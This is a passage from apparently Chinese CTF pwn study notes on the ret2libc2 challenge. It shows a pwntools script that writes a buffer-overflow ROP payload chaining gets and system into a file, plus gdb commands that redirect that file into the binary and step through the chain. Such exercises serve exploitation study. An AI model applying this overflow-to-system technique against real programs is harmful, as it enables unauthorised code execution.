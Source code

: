 

![image-20250215001143967](./ctf-wiki-pwn-learning.assets/image-20250215001143967.png)



### 6. gdb输入重定向

我们可以使用python把输入提前写进1.txt，然后在gdb里将输入重定向至1.txt



```python
from pwn import *
gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080

payload=flat([b'a'*112,gets_plt,pop_ebx,buf2,system_plt,b'b'*4,buf2])

with open('./1.txt','wb') as fp:
    fp.write(payload)
print("成功写入")
```



```bash
gdb ./ret2libc2
b *gets
b *0x08048490 #system_plt
b *0x0804843d #pop_ebx
r < ./1.txt #输入重定向至1.txt并重新执行
continue #continue之后esp指向buf2，eip指向pop ebx，符合预期
continue #continue之后esp指向b'b'*4，eip指向system函数，符合预期
```
